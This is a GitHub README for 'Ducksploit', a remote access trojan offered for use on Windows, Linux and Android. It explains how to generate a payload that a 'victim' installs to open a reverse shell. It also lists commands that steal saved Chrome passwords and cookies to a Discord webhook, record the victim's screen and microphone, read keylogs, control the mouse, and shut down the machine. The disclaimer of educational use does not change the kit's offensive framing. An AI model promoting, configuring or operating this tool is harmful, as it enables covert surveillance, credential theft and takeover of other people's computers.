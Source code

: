 <img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/dsbanner.png" alt="banner"/>

![](https://img.shields.io/badge/Version-1.0.7-red?style=for-the-badge) ![](https://img.shields.io/github/stars/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/github/issues/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](	https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/github/license/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/badge/Windows-blue?style=for-the-badge)![](https://img.shields.io/badge/Linux-yellow?style=for-the-badge)![](https://img.shields.io/badge/Android-green?style=for-the-badge)

> Awsome crossbreed of c#, batch, bash powershell, java and python on Windows, Android n linux ♥
 <center>
<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/windows-10.png?raw=true" alt="win10" widith="100" height="100"/>
</center>

## Install Ducksploit

#### Hacker
###### setup Windows/Linux
1. Download the hacker's version for your version (win/linux/android) on <a href="https://canarddu38.github.io/DUCKSPLOIT/download.html">our website</a>
2. Install the executable (DSinstaller.exe/.deb/.apk)
3. Type ds in your terminal
4. And done! 
###### :warning: Only for Android
5. Set your port
6. Click on START SERVER button
7. And wait till someone install your payload

 **⚠️DS ANDROID'S PAYLOAD GENERATION IS NOT ACTUALLY WORKING
 TO GET YOUR PAYLOAD PLEASE GO IN OUR DISCORD SERVER⚠️**



#### Victim
Just install the generated payload and that will start automaticaly the client of the reverse shell
:warning: Ducksploit is made for legal use or educational use (then, we are not responsible for any crimes committed by our users):warning:

## Uninstall Ducksploit (windows/linux)
1. type 'ds uninstall' in cmd
2. Done  :smile:

## Uninstall DuckSploit for Android
 1. Delete the app from your phone
 
## SUPPORT
support us with     
<noscript><a href="https://www.paypal.com/paypalme/Canarddu38"><img alt="Donate 👍 using Paypal" src="https://www.paypalobjects.com/webstatic/mktg/Logo/pp-logo-200px.png"></a></noscript>              # or             <noscript><a href="https://www.patreon.com/ducksploit"><img alt="Donate 👍 using Patreon" src="https://forum.cwowd.com/uploads/default/original/3X/6/d/6d1cdda143cc46667d87659d64d15a869a9b6139.png" width="100" height="100"></a></noscript>

## **Commands**
<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/mindmap.png?raw=true">




#### Launch
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| wait    | wait | wait your victim's connection |


#### Account
| Command | Usage    | Result |
| ------------- | ------------- | ------------- |
| info | info | view all your account's infos |

#### Exploits
| Command       | Usage                              | Result                                                                               |
| ------------- | ---------------------------------- | ------------------------------------------------------------------------------------ |
| stealpwds     | stealpwds (discord webhook url)    | steal all saved chrome passwords of your victim and send them into a discord webhook |
| stealcookies  | stealcookies (discord webhook url) | steal all saved chrome cookies of your victim and send them into a discord webhook   |
| open          | open (applicationname.exe)         | open mensioned application                                                           |
| recordscreen  | recordscreen (time in second)      | record victim's screen durring amount of time                                        |
| recordmicro   | recordmicro (time in second)       | record victim's micro durring amount of time                                         |

## ⚠️ To get your victim's keylogs, go on 'http://{ip of your victim}/keylogger/' ⚠️

#### Mouse
| Command     | Usage                            | Result                                      |
| ----------- | -------------------------------- | ------------------------------------------- |
| mouseclick  | mouseclick [left, right, middle] | make the victim click the mensionned button |
| mousemove   | mousemove (x) (y)                | move the victim's cursor by x and y pixels  |
| locatemouse | locatemouse                      | get the victim's cursor current locations   |

#### Alert Window
| Command  | Usage                       | Result                                                                    |
| -------- | --------------------------- | ------------------------------------------------------------------------- |
| msg      | msg (title) (line1) (line2) | create an alertbox and send it on the vitim's pc with a title and 2 lines |

#### Troll
| Command | Usage | Result                              |
| ------- | ----- | ----------------------------------- |
| skull   | skull | spam cmds with skull and crossbones |

#### Mysc 
| Command      | Usage       | Result                            |
|--------------|-------------|-----------------------------------|
| uninstall    | uninstall   | uninstall ducksploit              |
| update       | update      | update ducksploit                 |
| credits      | credits     | view ducksploit's credits         |
| help         | help        | getting the list of all commands  |
| shutdown     | shutdown    | make the victim's pc shutdown     |
| reboot       | reboot      | make the victim's pc reboot       |
| closesession | closesesion | make the victim's session close   |


## Made with ❤️ by DuckpvpTeam's devs
<br>
<a href="https://github.com/canarddu38/DUCKSPLOIT/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=canarddu38/DUCKSPLOIT" />
</a>
